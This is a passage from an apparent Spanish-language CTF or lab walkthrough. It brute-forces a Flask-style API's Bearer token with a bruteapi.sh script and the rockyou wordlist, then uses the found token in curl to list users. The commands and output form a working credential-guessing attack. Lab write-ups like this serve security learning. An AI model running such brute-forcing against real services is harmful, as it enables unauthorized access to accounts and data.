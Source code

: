 Nos sigue poniendo `No autorizado`, pero no nos esta dando un `404 Not Found` por lo que esta funcionando, pero no conseguiremos mucho mas, por lo que vamos a realizar un poco de bruta respecto a las `API's` con el siguiente script.

## BruteAPI Script

URL = [Script Fuerza bruta APIs](https://github.com/Maalfer/bruteapi)

Con este script vamos a realizar fuerza bruta con la direccion de la `API` junto con un diccionario de palabras para probarlas en la `URL` utilizando `curl`, pero si probamos algunas de las opciones que viene en el script no vamos a encontrar suerte, menos en una opcion que sera la siguiente:

```shell
bash bruteapi.sh http://<IP>:5000/api/users /usr/share/wordlists/rockyou.txt
```

Info:

```
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
🔐 Selecciona el método de autenticación:
1) Basic Auth (requiere usuario)
2) Bearer Token
3) API Key en encabezado
4) API Key en la URL
5) 🔄 Probar todos los métodos
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Ingrese la opción (1-5): 2

..................................................................................

[→] Ejecutando: curl -H 'Authorization: Bearer password1' http://172.17.0.2:5000/api/users
   Respuesta HTTP: 200
[✓] Contraseña encontrada: password1
✅ Proceso completado.
```

Vemos que hemos encontrado una coincidencia con el metodo de `Bearer Token` por lo que si ahora nosotros accedemos en esa `URL` que hemos encontrado que funciona, veremos lo siguiente:

```shell
curl -H 'Authorization: Bearer password1' http://172.17.0.2:5000/api/users
```

Info:

```
[
  {
    "id": 1,
    "nombre": "bob"
  },
  {
    "id": 2,
    "nombre": "dylan"
  }
]
```

